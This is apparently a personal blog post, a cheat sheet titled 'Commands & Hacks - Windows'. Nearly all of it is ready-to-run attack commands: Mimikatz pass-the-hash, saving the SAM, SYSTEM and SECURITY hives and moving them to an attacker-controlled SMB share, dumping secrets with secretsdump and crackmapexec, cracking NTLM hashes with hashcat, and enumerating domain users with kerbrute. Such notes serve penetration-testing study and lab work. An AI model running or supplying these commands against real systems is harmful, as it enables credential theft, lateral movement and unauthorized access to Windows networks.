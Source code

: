 ```yaml
---
layout: post
title: Commands & Hacks - Windows
toc: true
subtitle: Windows
comments: false
---
```


<b>Windows Authentication Tricks:</b> <br>

Windows Authentication Process Flowchart:

![auth](/pictures/windows/auth_process.png)

RDP via xfreerdp:

```
xfreerdp +clipboard /u:<user> /v:<target-IP> /cert-ignore
```

WinRM Auth via Evil-winrm:
```
evil-winrm -i <target-IP> -u <user> -p <pass>
```

Mimikatz Options:
```
/user
/rc4 - hash
/NTLM - hash
/domain - domain that the user to impersonate with belongs to i.e. localhost, DC01
/run - program running in user's context
```

Pass the Hash via Mimikatz cmd:
```
mimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /domain DC01 /rc4:<hash> /domain:<domainname> /run:cmd.exe"

pushd \\DC01\<user>
 ```

<b>Windows Hashes & Passwords</b> <br>

Non-domain joined windows system, grab the 3 SAM registry hives.
```
hklm\sam - Local User Account Passwords Hashes
hklm\system - System Bootkey to decrypt SAM database
hklm\security - Domain Accounts' cached credentials
```

SAM backup command:
```
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save
C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
```
Create Share server with smbserver.py to dump SAM:
```
sudo python3 /usr/bin/tools/impacket_smbserver.py -smb2support CompData /home/kali/Documents/
```
Move hive copies to Share server:
```
move sam.save \\<attacker_ip>\CompData
move security.save \\<attacker_ip>\CompData
move system.save \\<attacker_ip>\CompData
```
Dump Command:
```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

Cracking NT Hashes via hashcat:
```
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```
Cracking NTLMv2 Hash with hashcat:
```
hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt
```

Remote LSA Secrets Dumping via crackmapexec:
```
crackmapexec smb <target_ip> --local-auth -u <user> -p <pass> --lsa
```
Remote SAM Secrets Dumping via crackmapexec:
```
crackmapexec smb <target_ip> --local-auth -u <user> -p <pass> --sam
```
Enumerate Users with Kerbrute:
```
kerbrute userenum -d <domain_name> --dc <dc_ip> jsmith.txt -o valid_ad_user_accounts
```
